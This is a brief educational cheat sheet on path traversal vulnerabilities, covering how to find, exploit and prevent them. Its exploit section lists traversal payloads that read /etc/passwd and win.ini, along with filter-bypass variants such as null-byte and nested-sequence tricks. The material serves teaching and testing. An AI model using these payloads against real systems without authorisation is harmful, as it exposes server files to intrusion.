 # Path Traversal

</br>

## Definition
- File Path Traversal (or Directory Traversal) is a vulnerability that allows an attacker to read files on the server that is running the application.

</br>

---

## How To Find
- *Map the application:*
    - Identify all instances where the web application appears to contain the name of a file or directory.
    - Identify all functions in the application whose implementation is likely to involve retrieval of data from a server filesystem.
- Test identified instances with common directory traversal payloads and observe how the application responds.
    - Some common payloads:
        ```bash
        ../../../../etc/passwd
        ../../../etc/passwd
        ../../.htaccess
        \..\WINDOWS\win.ini
        \..\..\WINDOWS\win.ini
        ```
- Automatae testing using a web application vulnerability scanner (WAVS).

<br/>

---
## How To Exploit
- **Regular case**
    - Examples:
        ```bash
        ../../../../etc/passwd
        .\..\..\..\..\WINDOWS\win.ini
        ```
- **Absolute path case**
    - Example:
        ```bash
        /etc/passwd
        ```
- **Traversal sequences stripped non-recursively**
    - Example:
        ```bash
        ....//....//...//etc/passwd
        ```
- **Bypass traversal sequences stripped defense using URL encoding (single or double encoding)**

- **Bypass start of path validation**
    - Example:
        ```bash
        /var/www/images/../../../etc/passwd
        ```

- **Bypass file extinsion validation using Null Byte**
    - Example:
        ```bash
        ../../../etc/passwd%00.png
        ```
</br>

---
## How To Prevent
- Validate the user input before processing it. Ideally, compare the user input with a whitelist of permitted values. If that isn't possible, verify that the input contains only permitted content, such as alphanumeric characters only.
- After validating the supplied input, append the input to the base directory and use a platform filesystem API to canonicalize the path. Verify that the canonicalized path starts with the expected base directory.
